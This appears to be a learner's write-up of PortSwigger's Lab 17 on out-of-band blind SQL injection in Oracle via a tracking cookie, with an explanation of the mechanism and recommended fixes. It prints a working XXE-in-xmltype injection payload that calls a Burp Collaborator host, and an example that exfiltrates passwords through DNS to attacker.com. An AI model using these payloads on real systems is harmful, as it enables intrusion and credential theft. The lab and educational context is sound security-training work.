


## LAB-17 BLIND SQL INJECTION WITH OUT-OF-BAND INTERACTION

## LAB : [PortSwigger Lab 17 Link](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

## What?

**Out-of-Band (OOB) SQL Injection** on an **Oracle** database. The query executes asynchronously with zero effect on the application response — no output, no errors, no delays. The only way to confirm injection is by forcing the database to make an external network call (DNS lookup) to a server you control.

## Where?

* **Page:** Front page of the shop
* **Method:** GET (cookie-based)
* **Parameter:** `TrackingId` cookie
* **No auth required**

## How did I find it?

Tested standard blind techniques:

* Single quote → no error
* Time delay (`pg_sleep`, `dbms_pipe`) → no delay
* Boolean conditions → no response difference

The query runs **asynchronously** — the app doesn't wait for it. Standard blind techniques fail. Had to switch to **OOB** — forcing the database to "phone home."

## How did I verify it?

Used **Burp Collaborator** to generate a unique subdomain:

`hrcif7vu6e5v6jnupmof8b1uqlwck38s.oastify.com`

**Payload (Oracle XXE-based DNS lookup):**

```text
'|| (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://hrcif7vu6e5v6jnupmof8b1uqlwck38s.oastify.com/"> %remote;]>'),'/l') FROM dual)--   
```

We have to encode above query and then forward it. Change your burp collaborator link with it.

```text
'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f>\<!DOCTYPE+root+[+\<!ENTITY+%25+remote+SYSTEM+"http%3a//hrcif7vu6e5v6jnupmof8b1uqlwck38s.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--
```



## What happens?

1. The `xmltype()` parses the XML payload.
2. The XML contains an **XXE (XML External Entity)** declaration.
3. `<!ENTITY % remote SYSTEM "http://your-collaborator-domain/">` forces the XML parser to fetch that URL.
4. The database performs a **DNS lookup** to resolve `your-collaborator-domain`.
5. Burp Collaborator captures the DNS interaction.
6. You see the source IP in Collaborator → **injection confirmed**.



## Why does it work?

Oracle's `xmltype()` function parses XML, and the embedded XXE triggers a network request.

Even though:

* The SQL query is asynchronous.
* No results return to the app.
* No errors show in the response.

…the database still **resolves the DNS name** as part of parsing the XML. This DNS lookup is observable externally.

## What can an attacker do?

* **Confirm blind injection** when no other technique works.
* **Exfiltrate data** by embedding query results in the DNS subdomain:

```text
http://(SELECT password FROM users).attacker.com
```

* **Verify vulnerability existence** in hardened environments where errors and time delays are suppressed.
* **Bypass firewalls** that block outbound HTTP but allow DNS.

## What are the conditions/limitations?

* **Oracle database** with XXE-vulnerable `xmltype()` (patched in newer versions, but many old installs exist).
* Database must have **outbound DNS resolution** allowed.
* Requires **Burp Collaborator** or your own DNS server to catch lookups.
* The payload is **long and complex** — URL encoding required to bypass filters.
* **Asynchronous execution** means time-based techniques are useless.
* Alternative `UTL_INADDR.get_host_address` requires **elevated privileges**.

## How should it be fixed?

**Primary:** Use **parameterized queries** so `TrackingId` is bound as data.

**Defense-in-depth:**

* Patch Oracle to fix XXE in `xmltype()`.
* Disable outbound DNS from database servers (egress filtering).
* Disable `UTL_INADDR` and similar network packages for non-admin users.
* Use XML parsers with XXE protection enabled.
* Monitor for anomalous DNS queries from database servers.

## What did I learn?

I learned that **blind doesn't mean invisible** — it just means you need a different channel. When the app gives nothing back, make the database **reach out**.

I also learned that XXE and SQLi can be chained — the SQL injection delivers the XXE payload, and the XXE triggers the network call.

The URL encoding was tricky — every `<`, `>`, `"`, `?`, `%`, `:` had to be encoded or the payload would break mid-transmission.

Most importantly, I learned that **DNS is often the last open door** — firewalls block HTTP/HTTPS but forget about DNS.

## What was the key obstacle?

**Complete asynchronicity.** No delay, no error, no output — the query fires and the app moves on instantly.

I kept thinking my payloads were wrong because I saw no change. The realization that **the app doesn't wait for the database** was the turning point.

OOB was the only option left, and it worked because the database still performs network operations even when the app ignores the result.
